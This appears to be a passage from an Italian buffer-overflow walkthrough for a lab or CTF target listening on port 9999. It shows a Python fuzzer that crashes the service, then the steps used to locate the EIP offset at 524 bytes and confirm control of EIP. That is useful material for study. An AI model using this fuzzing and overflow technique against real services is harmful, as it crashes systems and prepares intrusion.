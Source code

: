 {%highlight python %}
#!/usr/bin/env python

import socket
import sys

def fuzz(ip):
    for i in range(30):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((ip, 9999))
            payload = int(i) * ("A"*100)
            s.send(payload+"\r\n")
            print "[*} sending " + str(len(str(payload))) + " bytes"
            s.close

        except socket.error, msg:
            print "Service die at " + str(len(str(payload))) + " bytes"
            sys.exit(1)


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print "[!] usage: " + sys.argv[0] + " ip_address"
        sys.exit(0)
    else:
        fuzz(sys.argv[1])

{%endhighlight %}

{% asciicast 189656 %}

Il fuzzer si ferma dopo aver inviato 800 byte quando il demone smette di
rispondere andando in crash. Il messaggio di errore ci dice che abbiamo
sovrascritto il valore di un registro che veniva utilizzato per referenziare
un'area di memoria.

Questo è un buon punto di partenza ma non abbiamo ancora la shell in tasca.

Modificando il mio semplice fuzzer, provo a mandare un buffer di 1000 byte
generato con pattern_create.rb per capire dopo quanti caratteri ho la
sovrascrittura dell'EIP.

{% asciicast 189800 %}

Il valore del EIP è 0x35724134. Per calcolare l'offset entro il quale io
sovrascrivo il mio EIP, uso il tool pattern_offset. Ottengo che si trova dopo
524 caratteri.

Il prossimo obiettivo è quello di avere la conferma di poter sovrascrivere
ulteriormente il mio EIP. Modifico quindi il codice del mio fuzzer in maniera
tale da mandare 524 byte di padding e la stringa "BBBB" allo scopo di causare
la sovrascrittura dell'EIP con 0x42424242.

{% asciicast 189801 %}

Debugger alla mano posso vedere lo stato dei miei registri. Il mio shellcode
viene copiato nello stack e referenziato dai registri opportuni.
